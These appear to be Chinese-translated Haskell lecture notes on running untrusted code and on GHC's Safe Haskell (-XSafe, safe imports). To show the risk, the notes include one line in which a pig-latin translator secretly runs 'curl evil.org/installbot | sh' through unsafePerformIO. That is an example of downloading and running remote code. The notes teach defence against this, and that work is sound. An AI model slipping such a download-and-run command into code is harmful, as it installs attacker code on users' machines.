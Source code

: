 # 不受信任的代码

+   假设你想在Haskell应用程序中合并不受信任的代码。

+   例如：一些第三方翻译软件

    +   你建立了一个Web服务器。

    +   想要在每个网页上添加一个“翻译为猪拉丁语”的按钮

    +   使用此函数下载一些随机代码。

        ```
        toPigLatin :: L.ByteString -> L.ByteString
        ```

+   如果你能信任类型（没有`IO`），这将是安全的运行

    +   最坏的情况是，用户在网页上看到了乱码文本。

+   然而，如果你有？

    ```
    toPigLatin = unsafePerformIO $ do system "curl evil.org/installbot | sh" return "Ia owna ouya"
    ```

## [安全的Haskell](http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html)

+   从GHC 7.2开始，`-XSafe`选项启用[���全的Haskell](http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html)

    +   由我们自己的CA，David Terei提供

+   安全的Haskell禁止导入任何不安全的模块。

    +   例如，不能导入`System.IO.Unsafe`，因此不能调用`unsafePerformIO`。

+   安全导入（通过`-XUnsafe`启用）要求导入是安全的。

    ```
    import safe PigLatin (toPigLatin)
    ```

    +   上述应该保证`toPigLatin`不调用不安全的函数。

+   但等等… `toPigLatin`不是使用ByteString吗？

    ```
    head :: {- Lazy -} ByteString -> Word8 head Empty = errorEmptyList "head" head (Chunk c _) = S.unsafeHead c unsafeHead :: {- Strict -} ByteString -> Word8 unsafeHead (PS x s l) = assert (l > 0) $ inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
    ```

## 安全与可信赖

+   编译为`-XSafe`的模块只能导入安全模块。
